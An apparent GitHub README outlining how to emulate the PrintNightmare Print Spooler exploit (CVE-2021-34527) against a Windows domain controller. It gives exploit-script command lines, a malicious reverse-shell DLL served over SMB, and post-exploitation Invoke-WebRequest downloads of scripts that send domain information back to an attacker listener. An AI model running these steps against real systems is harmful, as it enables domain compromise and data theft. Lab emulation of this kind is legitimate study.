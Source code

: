 # PrintNightmare Windows Print Spooler Vulnerability (CVE2021-34527)

Pre-exploitation

Attacker
1. Install Impacket and python script to exploit the vulnerability
2. Install metasploit (if you aren't using Kali), create a malicious dll as a faked printer driver and set up a listener on port 1443

   Steps to create a reverse shell dll: https://thedutchhacker.com/how-to-exploit-the-printnightmare-cve-2021-34527/
4. Run SMB server service and modify the config file
5. Place the faked printer driver to the SMB path
6. Ensure the target is vulnerable to MS-RPRN (Print System Remote Protocol) by running
   rpcdump.py <username>:<password>:@<target IP addr> | grep MS-RPRN
7. Exploit the vulnerability to the target machine
   sudo python3 CVE-2021-34527.py -u <username> -p <password> -d <domain controller IP addr> -dll <path/path/to/maliciousdll> <domain IP addr>

Target machine
1. Ensure the Domain Controller is running the Print Spooler Service and is vulnerable by checking the 
   Powershell
   PS C:\Users\Administrator> get-service spooler
   PS C:\Users\Administrator> start-service spooler

**e.g. replace <username> with a domain user account login credential

# Guides to emulate the vulnerability
Ref: https://github.com/m8sec/CVE-2021-34527?tab=readme-ov-file

Post-exploitation
Download 2 scripts to discovery local machine and domain group info, then send them back to attacker listener. 

'''console
<Invoke-WebRequest -Uri path/to/discovery.bat -o discovery.bat>
<Invoke-WebRequest -Uri path/to/export.bat -o export.bat>
'''


